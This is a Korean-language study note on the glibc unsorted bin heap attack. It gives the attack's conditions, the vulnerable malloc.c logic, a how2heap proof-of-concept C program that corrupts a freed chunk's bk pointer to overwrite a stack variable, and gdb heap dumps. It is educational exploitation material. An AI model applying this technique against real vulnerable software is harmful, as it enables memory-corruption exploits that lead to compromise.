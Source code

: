 # **Unsorted Bin Attack**

## **Conditions**

* 공격자에 의해 Unsorted Chunk를 생성할 수 있어야 함
* 공격자에 의해 Free Chunk 영역에 값을 저장할 수 있어야 함
* 공격자에 의해 Free Chunk와 동일한 크기의 Heap 영역을 할당할 수 있어야 함

## **Exploit Plan**

1. 2개의 Small Chunk 생성
1. 첫번째 Heap 영역 해제
    * 헤당 Heap 영역은 Unsorted Bin에 등록
1. 해제된 첫번째 Heap의 bk영역에 공격 대상이 될 주소 값 덮어씀
1. 첫번째 Heap 영역과 동일한 크기의 Heap 영역 할당
    * 공격 대상 영역에 main_arnea 영역의 주소가 저장됨

## **vulnerability**

* 아래의 malloc.c 코드에 의해 취약성 발생
* unsorted_chunks() 함수는 bin[0]에 저장된 값을 리턴
* stack_var = &av->bins[0] (main_arena.bins[0])

```
for (;; )
  {
    int iters = 0;
    while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
      {
        bck = victim->bk;
          ...
 
        /* remove from unsorted list */
        unsorted_chunks (av)->bk = bck;  // bck == victim->bk == &stack_var - 2 
        bck->fd = unsorted_chunks (av);  // (&stack_var - 2)->fd == stack_var
 
          ...
      }
```

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```

* stack_var(0x7fffffffe4d8)

```
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7fffffffe4d8: 0
```

* 2개의 Heap 생성 후 1번째 Heap 영역 free

```
Now, we allocate first normal chunk on the heap at: 0x603010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()
We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
```

* free된 Heap 영역이 unsortedbin에 저장된다.
* bk pointer는 0x7ffff7dd1b78을 가리키고 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x603620 (size : 0x209e0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x603000 (size : 0x420)

gdb-peda$ x/4gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000421
0x603010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78

gdb-peda$ x/24gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>:	0x0000000000603620	0x0000000000000000
0x7ffff7dd1b88 <main_arena+104>:	0x0000000000603000	0x0000000000603000
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
```

```
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4c8
```

* 1번째 Heap 영역의 bk를 stack_var - 0x10으로 변조 후 1번째 크기와 같은 size로 malloc 할 경우 stack_var 변수에 main_arena의 top 영역이 저장된다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x420                Freed     0x7ffff7dd1b78    0x7fffffffe4c8
0x603420            0x420               0x200                Used                None              None

gdb-peda$ x/gx 0x7fffffffe4d8
0x7fffffffe4d8:	0x00007ffff7dd1b78
```

```
Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
0x7fffffffe4d8: 0x7ffff7dd1b78
```

* victim 주소를 컨트롤 할 수 있지만, 쓰게되는 값은 &av->bins[0] 고정이다.
* 따라서 main_arena 영역에 값을 덮어쓰거나, global_max_fast의 값을 변경할 때 사용한다.

**References**  
<https://www.lazenca.net/display/TEC/unsorted+bin+attack>
<https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c>